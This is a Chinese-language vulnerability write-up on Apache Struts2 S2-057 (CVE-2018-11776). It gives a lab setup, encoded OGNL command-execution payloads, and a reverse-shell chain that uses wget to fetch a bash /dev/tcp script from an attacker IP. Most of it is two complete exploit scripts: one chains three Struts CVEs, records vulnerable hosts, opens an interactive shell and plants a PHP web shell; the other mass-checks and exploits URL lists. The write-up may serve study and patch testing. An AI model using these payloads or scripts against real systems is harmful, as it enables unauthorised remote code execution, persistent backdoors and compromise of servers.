



# Struts2 S2-057 远程代码执行漏洞 CVE-2018-11776

## 漏洞描述

漏洞详情：

- https://cwiki.apache.org/confluence/display/WW/S2-057
- https://lgtm.com/blog/apache_struts_CVE-2018-11776
- https://xz.aliyun.com/t/2618
- https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg

## 漏洞影响

影响版本：Struts <= 2.3.34、Struts 2.5.16

## 环境搭建

Vulhub执行以下命令启动s2-057测试环境：

```
docker-compose build
docker-compose up -d
```

启动环境后，访问`http://your-ip:8080/orders.xhtml`即可看到showcase页面。

## 漏洞复现

S2-057 需要以下条件：

- `alwaysSelectFullNamespace`为真 
- 操作元素没有设置命名空间属性，或者使用通配符

命名空间会被用户从uri传递过来，解析为OGNL表达式，最终导致远程代码执行漏洞。

有效载荷：

```
http://your-ip:8080/struts2-showcase/$%7B233*233%7D/actionChain1.action
```



可以看到Location头中已经返回了233*233的结果。

使用来自[S2-057 漏洞分析](https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg)的有效Payload和 POC：

```
${
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

成功执行`id`命令：



### 反弹shell

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传shell.sh文件的Payload为：

```
GET /struts2-showcase/$%7B(%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23ct%3D%23request%5B%27struts.valueStack%27%5D.context).(%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D).(%23ou%3D%23cr.getInstance(%40com.opensymphony.xwork2.ognl.OgnlUtil%40class)).(%23ou.getExcludedPackageNames().clear()).(%23ou.getExcludedClasses().clear()).(%23ct.setMemberAccess(%23dm)).(%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27wget%20192.168.174.128/shell.sh%27)).(%40org.apache.commons.io.IOUtils%40toString(%23a.getInputStream()))%7D/actionChain1.action HTTP/1.1
```

执行shell.sh文件的命令为：

```
bash shell.sh
```

执行shell.sh文件的Payload为：

```
GET /struts2-showcase/$%7B(%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23ct%3D%23request%5B%27struts.valueStack%27%5D.context).(%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D).(%23ou%3D%23cr.getInstance(%40com.opensymphony.xwork2.ognl.OgnlUtil%40class)).(%23ou.getExcludedPackageNames().clear()).(%23ou.getExcludedClasses().clear()).(%23ct.setMemberAccess(%23dm)).(%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27bash%20shell.sh%27)).(%40org.apache.commons.io.IOUtils%40toString(%23a.getInputStream()))%7D/actionChain1.action HTTP/1.1
```

成功接收反弹shell：



## 漏洞EXP

### EXP 1

```python
#!/usr/bin/python

from __future__ import print_function
from future import standard_library
standard_library.install_aliases()
from builtins import input
from builtins import str
import urllib.request, urllib.error, urllib.parse
import time
import sys
import os
import subprocess
import requests
import readline
import urllib.parse

RED = '\033[1;31m'
BLUE = '\033[94m'
BOLD = '\033[1m'
GREEN = '\033[32m'
OTRO = '\033[36m'
YELLOW = '\033[33m'
ENDC = '\033[0m'

def cls():
    os.system(['clear', 'cls'][os.name == 'nt'])
cls()

logo = BLUE+'''
  ___   _____  ___    _   _  _____  ___
 (  _`\(_   _)|  _`\ ( ) ( )(_   _)(  _`\
 | (_(_) | |  | (_) )| | | |  | |  | (_(_)
 `\__ \  | |  | ,  / | | | |  | |  `\__ \
 ( )_) | | |  | |\ \ | (_) |  | |  ( )_) |
 `\____) (_)  (_) (_)(_____)  (_)  `\____)

        =[ Command Execution v3]=
              By @s1kr10s
'''+ENDC
print(logo)

print(" * Ejemplo: http(s)://www.victima.com/files.login\n")
host = input(BOLD+" [+] HOST: "+ENDC)

if len(host) > 0:
    if host.find("https://") != -1 or host.find("http://") != -1:

        poc = "?redirect:${%23w%3d%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29.getWriter%28%29,%23w.println%28%27mamalo%27%29,%23w.flush%28%29,%23w.close%28%29}"

        def exploit(comando):
            exploit = "?redirect:${%23a%3d%28new%20java.lang.ProcessBuilder%28new%20java.lang.String[]{"+comando+"}%29%29.start%28%29,%23b%3d%23a.getInputStream%28%29,%23c%3dnew%20java.io.InputStreamReader%28%23b%29,%23d%3dnew%20java.io.BufferedReader%28%23c%29,%23e%3dnew%20char[50000],%23d.read%28%23e%29,%23matt%3d%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29,%23matt.getWriter%28%29.println%28%23e%29,%23matt.getWriter%28%29.flush%28%29,%23matt.getWriter%28%29.close%28%29}"
            return exploit

        def exploit2(comando):
            exploit2 = "Content-Type:%{(+++#_='multipart/form-data').(+++#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(+++#_memberAccess?(+++#_memberAccess=#dm):((+++#container=#context['com.opensymphony.xwork2.ActionContext.container']).(+++#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(+++#ognlUtil.getExcludedPackageNames().clear()).(+++#ognlUtil.getExcludedClasses().clear()).(+++#context.setMemberAccess(+++#dm)))).(+++#shell='"+str(comando)+"').(+++#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(+++#shells=(+++#iswin?{'cmd.exe','/c',#shell}:{'/bin/sh','-c',#shell})).(+++#p=new java.lang.ProcessBuilder(+++#shells)).(+++#p.redirectErrorStream(true)).(+++#process=#p.start()).(+++#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(+++#process.getInputStream(),#ros)).(+++#ros.flush())}"
            return exploit2

        def exploit3(comando):
            exploit3 = "%24%7B%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%27"+comando+"%27%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B51020%5D%2C%23c.read%28%23d%29%2C%23sbtest%3D@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2C%23sbtest.println%28%23d%29%2C%23sbtest.close%28%29%29%7D"
            return exploit3

        def pwnd(shellfile):
            exploitfile = "?redirect:${%23a%3d%28new%20java.lang.ProcessBuilder%28new%20java.lang.String[]{"+shellfile+"}%29%29.start%28%29,%23b%3d%23a.getInputStream%28%29,%23c%3dnew%20java.io.InputStreamReader%28%23b%29,%23d%3dnew%20java.io.BufferedReader%28%23c%29,%23e%3dnew%20char[50000],%23d.read%28%23e%29,%23matt%3d%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29,%23matt.getWriter%28%29.println%28%23e%29,%23matt.getWriter%28%29.flush%28%29,%23matt.getWriter%28%29.close%28%29}"
            return exploitfile

        def validador():
            arr_lin_win = ["file%20/etc/passwd","dir","net%20users","id","/sbin/ifconfig","cat%20/etc/passwd"]
            return arr_lin_win

        #def reversepl(ip,port):
        #       print "perl"

        #def reversepy(ip,port):
        #       print "python"

        # CVE-2013-2251 ---------------------------------------------------------------------------------
        try:
            response = ''
            response = urllib.request.urlopen(host+poc)
        except:
            print(RED+" Servidor no responde\n"+ENDC)
            exit(0)

        print(BOLD+"\n [+] EJECUTANDO EXPLOIT CVE-2013-2251"+ENDC)

        if response.read().find("mamalo") != -1:
            print(RED+"   [-] VULNERABLE"+ENDC)
            owned = open('vulnsite.txt', 'a')
            owned.write(str(host)+'\n')
            owned.close()

            opcion = input(YELLOW+"   [-] RUN THIS EXPLOIT (s/n): "+ENDC)
            #print BOLD+"   * [SHELL REVERSA]"+ENDC
            #print OTRO+"     Struts@Shell:$ reverse 127.0.0.1 4444 (perl,python,bash)\n"+ENDC
            if opcion == 's':
                print(YELLOW+"   [-] GET PROMPT...\n"+ENDC)
                time.sleep(1)
                print(BOLD+"   * [UPLOAD SHELL]"+ENDC)
                print(OTRO+"     Struts@Shell:$ pwnd (php)\n"+ENDC)

                while 1:
                    separador = input(GREEN+"Struts2@Shell_1:$ "+ENDC)
                    espacio = separador.split(' ')
                    comando = "','".join(espacio)

                    if espacio[0] != 'reverse' and espacio[0] != 'pwnd':
                        shell = urllib.request.urlopen(host+exploit("'"+str(comando)+"'"))
                        print("\n"+shell.read())
                    elif espacio[0] == 'pwnd':
                        pathsave=input("path EJ:/tmp/: ")

                        if espacio[1] == 'php':
                            shellfile = """'python','-c','f%3dopen("/tmp/status.php","w");f.write("<?php%20system($_GET[ksujenenuhw])?>")'"""
                            urllib.request.urlopen(host+pwnd(str(shellfile)))
                            shell = urllib.request.urlopen(host+exploit("'ls','-l','"+pathsave+"status.php'"))
                            if shell.read().find(pathsave+"status.php") != -1:
                                print(BOLD+GREEN+"\nCreate File Successfull :) ["+pathsave+"status.php]\n"+ENDC)
                            else:
                                print(BOLD+RED+"\nNo Create File :/\n"+ENDC)

        # CVE-2017-5638 ---------------------------------------------------------------------------------
        print(BLUE+"     [-] NO VULNERABLE"+ENDC)
        print(BOLD+" [+] EJECUTANDO EXPLOIT CVE-2017-5638"+ENDC)
        x = 0
        while x < len(validador()):
            valida = validador()[x]

            try:
                req = urllib.request.Request(host, None, {'User-Agent': 'Mozilla/5.0', 'Content-Type': exploit2(str(valida))})
                result = urllib.request.urlopen(req).read()

                if result.find("ASCII") != -1 or result.find("No such") != -1 or result.find("Directory of") != -1 or result.find("Volume Serial") != -1 or result.find("inet") != -1 or result.find("root:") != -1 or result.find("uid=") != -1 or result.find("accounts") != -1 or result.find("Cuentas") != -1:
                    print(RED+"   [-] VULNERABLE"+ENDC)
                    owned = open('vulnsite.txt', 'a')
                    owned.write(str(host)+'\n')
                    owned.close()

                    opcion = input(YELLOW+"   [-] RUN THIS EXPLOIT (s/n): "+ENDC)
                    if opcion == 's':
                        print(YELLOW+"   [-] GET PROMPT...\n"+ENDC)
                        time.sleep(1)

                        while 1:
                            try:
                                separador = input(GREEN+"\nStruts2@Shell_2:$ "+ENDC)
                                req = urllib.request.Request(host, None, {'User-Agent': 'Mozilla/5.0', 'Content-Type': exploit2(str(separador))})
                                result = urllib.request.urlopen(req).read()
                                print("\n"+result)
                            except:
                                exit(0)
                    else:
                        x = len(validador())
                else:
                    print(BLUE+"     [-] NO VULNERABLE "+ENDC + "Payload: " + str(x))
            except:
                pass
            x=x+1

        # CVE-2018-11776 ---------------------------------------------------------------------------------
        print(BLUE+"     [-] NO VULNERABLE"+ENDC)
        print(BOLD+" [+] EJECUTANDO EXPLOIT CVE-2018-11776"+ENDC)
        x = 0
        while x < len(validador()):
            #Filtramos la url solo dominio
            url = host.replace('#', '%23')
            url = host.replace(' ', '%20')
            if ('://' not in url):
                url = str("http://") + str(url)
            scheme = urllib.parse.urlparse(url).scheme
            site = scheme + '://' + urllib.parse.urlparse(url).netloc

            #Filtramos la url solo path
            file_path = urllib.parse.urlparse(url).path
            if (file_path == ''):
                file_path = '/'

            valida = validador()[x]
            try:
                result = requests.get(site+"/"+exploit3(str(valida))+file_path).text

                if result.find("ASCII") != -1 or result.find("No such") != -1 or result.find("Directory of") != -1 or result.find("Volume Serial") != -1 or result.find("inet") != -1 or result.find("root:") != -1 or result.find("uid=") != -1 or result.find("accounts") != -1 or result.find("Cuentas") != -1:
                    print(RED+"   [-] VULNERABLE"+ENDC)
                    owned = open('vulnsite.txt', 'a')
                    owned.write(str(host)+'\n')
                    owned.close()

                    opcion = input(YELLOW+"   [-] RUN THIS EXPLOIT (s/n): "+ENDC)
                    if opcion == 's':
                        print(YELLOW+"   [-] GET PROMPT...\n"+ENDC)
                        time.sleep(1)
                        print(BOLD+"   * [UPLOAD SHELL]"+ENDC)
                        print(OTRO+"     Struts@Shell:$ pwnd (php)\n"+ENDC)

                        while 1:
                            separador = input(GREEN+"Struts2@Shell_3:$ "+ENDC)
                            espacio = separador.split(' ')
                            comando = "%20".join(espacio)

                            shell = urllib.request.urlopen(host+exploit3(str(comando)))
                            print("\n"+shell.read())

                    else:
                        x = len(validador())
                        exit(0)
                else:
                    print(BLUE+"     [-] NO VULNERABLE "+ENDC + "Payload: " + str(x))
            except:
                pass
            x=x+1
    else:
        print(RED+" Debe introducir el protocolo (https o http) para el dominio\n"+ENDC)
        exit(0)
else:
    print(RED+" Debe Ingresar una Url\n"+ENDC)
    exit(0)
```

### EXP 2

```PYTHON
#!/usr/bin/env python3
# coding=utf-8
# *****************************************************
# struts-pwn: Apache Struts CVE-2018-11776 Exploit
# Author:
# Mazin Ahmed <Mazin AT MazinAhmed DOT net>
# This code uses a payload from:
# https://github.com/jas502n/St2-057
# *****************************************************

from __future__ import print_function
from future import standard_library
standard_library.install_aliases()
from builtins import str
from builtins import range
import argparse
import random
import requests
import sys
try:
    from urllib import parse as urlparse
except ImportError:
    import urllib.parse

# Disable SSL warnings
try:
    import requests.packages.urllib3
    requests.packages.urllib3.disable_warnings()
except Exception:
    pass

if len(sys.argv) <= 1:
    print('[*] CVE: 2018-11776 - Apache Struts2 S2-057')
    print('[*] Struts-PWN - @mazen160')
    print('\n%s -h for help.' % (sys.argv[0]))
    exit(0)


parser = argparse.ArgumentParser()
parser.add_argument("-u", "--url",
                    dest="url",
                    help="Check a single URL.",
                    action='store')
parser.add_argument("-l", "--list",
                    dest="usedlist",
                    help="Check a list of URLs.",
                    action='store')
parser.add_argument("-c", "--cmd",
                    dest="cmd",
                    help="Command to execute. (Default: 'id')",
                    action='store',
                    default='id')
parser.add_argument("--exploit",
                    dest="do_exploit",
                    help="Exploit.",
                    action='store_true')


args = parser.parse_args()
url = args.url if args.url else None
usedlist = args.usedlist if args.usedlist else None
cmd = args.cmd if args.cmd else None
do_exploit = args.do_exploit if args.do_exploit else None

headers = {
    'User-Agent': 'struts-pwn (https://github.com/mazen160/struts-pwn_CVE-2018-11776)',
    # 'User-Agent': 'Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36',
    'Accept': '*/*'
}
timeout = 3


def parse_url(url):
    """
    Parses the URL.
    """

    # url: http://example.com/demo/struts2-showcase/index.action

    url = url.replace('#', '%23')
    url = url.replace(' ', '%20')

    if ('://' not in url):
        url = str("http://") + str(url)
    scheme = urllib.parse.urlparse(url).scheme

    # Site: http://example.com
    site = scheme + '://' + urllib.parse.urlparse(url).netloc

    # FilePath: /demo/struts2-showcase/index.action
    file_path = urllib.parse.urlparse(url).path
    if (file_path == ''):
        file_path = '/'

    # Filename: index.action
    try:
        filename = url.split('/')[-1]
    except IndexError:
        filename = ''

    # File Dir: /demo/struts2-showcase/
    file_dir = file_path.rstrip(filename)
    if (file_dir == ''):
        file_dir = '/'

    return({"site": site,
            "file_dir": file_dir,
            "filename": filename})


def build_injection_inputs(url):
    """
    Builds injection inputs for the check.
    """

    parsed_url = parse_url(url)
    injection_inputs = []
    url_directories = parsed_url["file_dir"].split("/")

    try:
        url_directories.remove("")
    except ValueError:
        pass

    for i in range(len(url_directories)):
        injection_entry = "/".join(url_directories[:i])

        if not injection_entry.startswith("/"):
            injection_entry = "/%s" % (injection_entry)

        if not injection_entry.endswith("/"):
            injection_entry = "%s/" % (injection_entry)

        injection_entry += "{{INJECTION_POINT}}/"  # It will be renderred later with the payload.
        injection_entry += parsed_url["filename"]

        injection_inputs.append(injection_entry)

    return(injection_inputs)


def check(url):
    random_value = int(''.join(random.choice('0123456789') for i in range(2)))
    multiplication_value = random_value * random_value
    injection_points = build_injection_inputs(url)
    parsed_url = parse_url(url)
    print("[%] Checking for CVE-2018-11776")
    print("[*] URL: %s" % (url))
    print("[*] Total of Attempts: (%s)" % (len(injection_points)))
    attempts_counter = 0

    for injection_point in injection_points:
        attempts_counter += 1
        print("[%s/%s]" % (attempts_counter, len(injection_points)))
        testing_url = "%s%s" % (parsed_url["site"], injection_point)
        testing_url = testing_url.replace("{{INJECTION_POINT}}", "${{%s*%s}}" % (random_value, random_value))
        try:
            resp = requests.get(testing_url, headers=headers, verify=False, timeout=timeout, allow_redirects=False)
        except Exception as e:
            print("EXCEPTION::::--> " + str(e))
            continue
        if "Location" in list(resp.headers.keys()):
            if str(multiplication_value) in resp.headers['Location']:
                print("[*] Status: Vulnerable!")
                return(injection_point)
    print("[*] Status: Not Affected.")
    return(None)


def exploit(url, cmd):
    parsed_url = parse_url(url)

    injection_point = check(url)
    if injection_point is None:
        print("[%] Target is not vulnerable.")
        return(0)
    print("[%] Exploiting...")

    payload = """%24%7B%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%27{0}%27%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B51020%5D%2C%23c.read%28%23d%29%2C%23sbtest%3D@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2C%23sbtest.println%28%23d%29%2C%23sbtest.close%28%29%29%7D""".format(cmd)

    testing_url = "%s%s" % (parsed_url["site"], injection_point)
    testing_url = testing_url.replace("{{INJECTION_POINT}}", payload)

    try:
        resp = requests.get(testing_url, headers=headers, verify=False, timeout=timeout, allow_redirects=False)
    except Exception as e:
        print("EXCEPTION::::--> " + str(e))
        return(1)

    print("[%] Response:")
    print(resp.text)
    return(0)


def main(url=url, usedlist=usedlist, cmd=cmd, do_exploit=do_exploit):
    if url:
        if not do_exploit:
            check(url)
        else:
            exploit(url, cmd)

    if usedlist:
        URLs_List = []
        try:
            f_file = open(str(usedlist), "r")
            URLs_List = f_file.read().replace("\r", "").split("\n")
            try:
                URLs_List.remove("")
            except ValueError:
                pass
            f_file.close()
        except Exception as e:
            print("Error: There was an error in reading list file.")
            print("Exception: " + str(e))
            exit(1)
        for url in URLs_List:
            if not do_exploit:
                check(url)
            else:
                exploit(url, cmd)

    print("[%] Done.")


if __name__ == "__main__":
    try:
        main(url=url, usedlist=usedlist, cmd=cmd, do_exploit=do_exploit)
    except KeyboardInterrupt:
        print("\nKeyboardInterrupt Detected.")
        print("Exiting...")
        exit(0)
```

